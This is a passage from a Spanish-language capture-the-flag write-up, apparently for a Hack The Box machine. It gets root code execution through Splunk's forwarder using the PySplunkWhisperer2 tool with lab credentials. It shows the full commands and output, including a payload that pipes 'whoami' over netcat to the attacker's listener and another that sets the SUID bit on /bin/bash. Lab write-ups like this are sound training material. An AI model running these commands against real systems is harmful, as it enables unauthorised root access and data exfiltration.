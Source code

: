 Funciona 

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:43:36.957933 IP 10.10.10.209 > 10.10.14.5: ICMP echo request, id 2, seq 1, length 64
17:43:36.957961 IP 10.10.14.5 > 10.10.10.209: ICMP echo reply, id 2, seq 1, length 64

```

Bueno vamos a ver quien es el que esta ejecutando los comandos

```bash
❯ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.5 --username shaun --password Guitar123 --payload "whoami | nc 10.10.14.5 443"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpjl7pb6lx.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.5:8181/
10.10.10.209 - - [06/Jun/2023 17:45:16] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.209] 58652
root

```

Bueno lo que podemos hacer es Enviarnos una reverse shell como **Root** o poner la **Bash SUID** ya que estamos ejecutando comandos como root pero bueno como ya tenemos la `shell` como `shaun` pues podemos poner la **Bash** **SUID** asi que haremos eso 

```bash
❯ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.5 --username shaun --password Guitar123 --payload "chmod u+s /bin/bash"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpfw3kkh01.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.5:8181/
10.10.10.209 - - [06/Jun/2023 17:46:57] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```
